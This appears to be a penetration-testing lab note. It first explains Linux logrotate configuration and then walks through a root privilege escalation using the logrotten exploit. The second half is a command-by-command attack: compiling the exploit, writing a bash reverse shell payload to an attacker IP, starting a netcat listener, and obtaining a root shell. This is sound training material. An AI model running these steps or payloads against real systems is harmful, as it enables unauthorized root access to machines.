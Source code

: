 ```yaml
---
icon: linux
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# Logrotate

Linux system produces large amounts of log files. To prevent the hard disk from overflowing, a tool called **logrotate** takes care of archiving or disposing of old logs.

`Logrotate` has many features for managing log files. These include the specification of:

* the `size` of the log file,
* its `age`,
* and the `action` to be taken when one of these factors is reached.

The function of the rotation itself consists in renaming the log files. For example, new log files can be created for each new day, and the older ones will be renamed automatically. Another example of this would be to empty the oldest log file and thus reduce memory consumption.

This tool is usually started periodically via `cron` and controlled via the configuration file `/etc/logrotate.conf`. Within this file, it contains global settings that determine the function of `logrotate`.

## logrotate Config Files

To force a new rotation on the same day, we can set the date after the individual log files in the status file `/var/lib/logrotate.status` or use the `-f`/`--force` option:

```shell-session
sudo cat /var/lib/logrotate.status

/var/log/samba/log.smbd" 2022-8-3
/var/log/mysql/mysql.log" 2022-8-3
```

We can find the corresponding configuration files in `/etc/logrotate.d/` directory.

```shell-session
McClewR@htb[/htb]$ ls /etc/logrotate.d/

alternatives  apport  apt  bootlog  btmp  dpkg  mon  rsyslog  ubuntu-advantage-tools  ufw  unattended-upgrades  wtmp
```

```shell-session
McClewR@htb[/htb]$ cat /etc/logrotate.d/dpkg

/var/log/dpkg.log {
        monthly
        rotate 12
        compress
        delaycompress
        missingok
        notifempty
        create 644 root root
}
```

```bash
logrotate --force /etc/logrotate.d/dpkg
```

## Privilege Escalation

To exploit `logrotate`, we need some requirements that we have to fulfil.

1. we need `write` permissions on the log files
2. logrotate must run as a privileged user or `root`
3. vulnerable versions:
   * 3.8.6
   * 3.11.0
   * 3.15.0
   * 3.18.0

There is a prefabricated exploit that we can use for this if the requirements are met. This exploit is named [logrotten](https://github.com/whotwagner/logrotten). We can download and compile it on a similar kernel of the target system and then transfer it to the target system. Alternatively, if we can compile the code on the target system, then we can do it directly on the target system.

```shell-session
logger@nix02:~$ git clone https://github.com/whotwagner/logrotten.git
logger@nix02:~$ cd logrotten
logger@nix02:~$ gcc logrotten.c -o logrotten
```

Next, we need a payload to be executed. Here many different options are available to us that we can use. In this example, we will run a simple bash-based reverse shell with the `IP` and `port` of our VM that we use to attack the target system.

{% code title="Command" %}
```bash
echo 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload
```
{% endcode %}

However, before running the exploit, we need to determine which option `logrotate` uses in `logrotate.conf`.

{% code title="Command" %}
```bash
grep "create\|compress" /etc/logrotate.conf | grep -v "#"
```
{% endcode %}

{% code title="Example Output" %}
```
create
```
{% endcode %}

In this example, it is the option: `create`. Therefore we have to use the exploit adapted to this function.

After that, we have to start a listener on our machine, which waits for the target system's connection.

```bash
nc -nlvp 9001
```

As a final step, we run the exploit with the prepared payload and wait for a reverse shell as a privileged user or root.

{% code title="Command" %}
```bash
./logrotten -p ./payload /tmp/tmp.log
```
{% endcode %}

{% code title="NetCat Listener Output" %}
```bash
...
Listening on 0.0.0.0 9001

Connection received on 10.129.24.11 49818
# id

uid=0(root) gid=0(root) groups=0(root)
```
{% endcode %}
